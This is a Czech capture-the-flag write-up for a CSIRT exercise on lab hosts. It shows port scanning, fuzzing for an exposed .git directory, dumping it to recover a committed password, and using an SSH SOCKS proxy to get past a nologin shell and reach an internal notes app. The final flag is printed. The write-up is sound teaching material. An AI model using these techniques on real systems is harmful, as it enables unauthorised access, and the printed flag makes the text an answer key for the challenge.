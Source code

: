 # Admin Johnson (3)

## Zadání

Hi, TCC-CSIRT analyst,

admin Johny is testing a new notebook to take notes, as any good administrator would. He thinks he has correctly secured the application so that only he can access it and no one else. Your task is to check if he made any security lapses.

* Admin Johny uses workstation `johny-station.cypherfix.tcc`.
* Application for notes runs on `notes.cypherfix.tcc`.

See you in the next incident!

## Nápovědy (Hints)

1. `/usr/sbin/nologin` is a good servant but a bad master.

## Řešení

Začneme skenováním portů

`nmap johny-station.cypherfix.tcc`

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

`nmap notes.cypherfix.tcc`

```text
80/tcp   open  http
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
```

Na <http://johny-station.cypherfix.tcc> se zdá, že běží Apache server ve výchozím nastavení bez nahraných webových stránek.

Stránka <http://notes.cypherfix.tcc> je přesměrována na <http://notes.cypherfix.tcc:8080/>, která ale nevrací žádný obsah. Stejné je to s <http://notes.cypherfix.tcc:8081/>.

Zkusím zjistit, jestli přece jen není něco nahrané na adrese <http://johny-station.cypherfix.tcc>.

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/FUZZ`

```text
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 25ms]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 26ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 26ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 34ms]
~mail                   [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~lp                     [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~bin                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~nobody                 [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~sys                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 26ms]
index.html              [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 17ms]
server-status           [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 18ms]
```

Složky začínající `~` se používají pro webové stránky, které si může každý uživatel spravovat sám. Zkusíme <http://johny-station.cypherfix.tcc/~johny>.

Zobrazí se seznam nahraných souborů.

```text
Index of /~johny
Name              Last modified   Size Description
Parent Directory                   -
flatnotes/        2024-10-14 12:01 -
```

Adresář flatnotes obsahuje zdrojové soubory systému pro zápis poznámek <https://github.com/dullage/flatnotes>.

Prozkoumáním souborů jsem nenašel nic zajímavého. Zkusíme znovu `ffuf`.

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/~johny/FUZZ`

Nic zajímavého

```text
                        [Status: 200, Size: 956, Words: 64, Lines: 17, Duration: 28ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
```

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/~johny/flatnotes/FUZZ`

Na serveru je skrytý adresář `.git`.

```text
                        [Status: 200, Size: 4673, Words: 269, Lines: 35, Duration: 15ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 258ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 270ms]
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 277ms]
.git/HEAD               [Status: 200, Size: 24, Words: 2, Lines: 2, Duration: 277ms]
client                  [Status: 301, Size: 360, Words: 20, Lines: 10, Duration: 24ms]
docs                    [Status: 301, Size: 358, Words: 20, Lines: 10, Duration: 13ms]
LICENSE                 [Status: 200, Size: 1090, Words: 153, Lines: 22, Duration: 15ms]
server                  [Status: 301, Size: 360, Words: 20, Lines: 10, Duration: 14ms]
```

Ke stažení git repozitáře z webové stránky použijeme <https://github.com/arthaud/git-dumper>.

`git-dumper http://johny-station.cypherfix.tcc/~johny/flatnotes flatnotes`

Ve staženém repozitáři je commit od uživatele johny `User password for http://notes.cypherfix.tcc:8080` měnící heslo `FLATNOTES_PASSWORD` na `gojohnygo`.

```text
...
docker run -d \
  -e "PUID=1000" \
  -e "PGID=1000" \
  -e "FLATNOTES_AUTH_TYPE=password" \
  -e "FLATNOTES_USERNAME=user" \
  -e "FLATNOTES_PASSWORD=gojohnygo" \
  -e "FLATNOTES_SECRET_KEY=aLongRandomSeriesOfCharacters" \
  -v "$(pwd)/data:/data" \
  -p "8080:8080" \
  dullage/flatnotes:latest
```

Zkusíme se pomocí tohoto hesla přihlásit k SSH.

`ssh johny@johny-station.cypherfix.tcc`

Spojení je ihned ukončeno.

```text
Linux e9ac2205cf80 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 15 06:34:46 2024 from 10.200.0.24
This account is currently not available.
Connection to johny-station.cypherfix.tcc closed.
```

Díky nápovědě je zřejmé, že uživatel `johny` má nastavený shell na `/usr/sbin/nologin`.

SSH spojení ale můžeme použít také k tunelování portů pomocí SOCKS5 bez nutnosti spouštět shell.
![socks5](ssh_socks5_proxy_linux.png)

`ssh johny@johny-station.cypherfix.tcc -D 1337 -N`

Nastavíme proxy v prohlížeči

![proxy](image.png)

a zkusíme zobrazit <http://notes.cypherfix.tcc> pomocí nastaveného proxy a SSH tunelu.

Teď už se zobrazí přihlašovací stránka flatnotes. Zkusíme jméno a heslo z vyčteného gitu `user / gojohnygo`.

Funguje, zkusíme vyhledat slovo flag.

## Flag

`FLAG{VfCK-Hlp4-cQl8-p0UM}`
